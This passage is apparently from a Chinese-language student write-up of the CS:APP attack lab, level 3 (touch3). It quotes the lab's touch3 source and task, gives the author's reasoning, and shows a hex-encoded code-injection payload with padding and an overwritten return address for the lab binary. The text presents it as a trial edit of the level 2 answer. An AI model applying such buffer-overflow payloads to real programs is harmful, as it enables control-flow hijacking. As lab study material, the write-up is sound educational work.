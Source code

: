 ```cpp
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

Your task is to get CTARGET to execute the code for `touch3` rather than returning to `test`. You must make it appear to `touch3` as if you have passed a string representation of your cookie as its argument.

![](./assets/3.%20lab3-attack/2023-08-09-11-02-55.png)

没太弄懂要怎么搞，这里要把一个字符串作为参数传进去，又要用到cookie，那cookie不用我们自己传了吗？

看了下知乎，好像确实不用传cookie了，但是说是要把字符串存在test函数的栈空间里面，因为有随机地址访问，会覆盖getbuf函数的栈空间，口说无凭，来运行试试吧

直接把level 2的答案改一下，把压栈的地址改成touch3的地址，然后运行试试
```
48 c7 c7 fa 97 b9 59 /* mov    $0x59b997fa,%rdi */
68 fa 18 40 00       /* push   $0x4018fa */
c3                   /* ret */ /* 到这里共13个字节 */
00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 /* 补27个字节 */
78 dc 61 55 /* %rsp */ /* 最后4个字节，覆盖getbuf函数的返回地址 */
```
